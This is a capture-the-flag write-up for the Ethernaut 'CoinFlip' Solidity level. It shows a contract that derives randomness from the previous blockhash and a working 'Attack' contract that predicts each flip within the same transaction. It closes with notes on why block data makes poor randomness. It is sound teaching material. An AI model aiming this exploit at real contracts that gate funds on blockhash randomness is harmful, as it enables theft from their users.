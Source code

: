 ## Challenge
~~~
This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

- See the ["?"](https://ethernaut.openzeppelin.com/help) page above in the top right corner menu, section "Beyond the console"
~~~
## Contract
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```
`

## Solution

```
contract Attack {
    CoinFlip private immutable target;
    uint256 private constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _target) {
        target = CoinFlip(_target);
    }

    // call this function 10 times
    function flip() external {
        bool guess = _guess();
        require(target.flip(guess), "guess failed");
    }

    function _guess() private view returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        return coinFlip == 1 ? true : false;
    }
}
```

## Key takeaways and useful resources

We cannot depend on the `block.number` when we need a completely random value even more when there is money at stake. Block number can be accessed by everyone making it vulnerable for random number generation because they become very deterministic. Not only can it be accessed by everyone but it be tampered with by the block producers (The validators) depending on the chain. When we make a call to our Attack contract it will create a nested call to the vulnerable contract and these both calls would be part of the same transaction and this way they will be part of the same block.

[Transactions explained](https://ethereum.org/en/developers/docs/transactions/)
[Block properties](https://docs.soliditylang.org/en/latest/units-and-global-variables.html#block-and-transaction-properties)



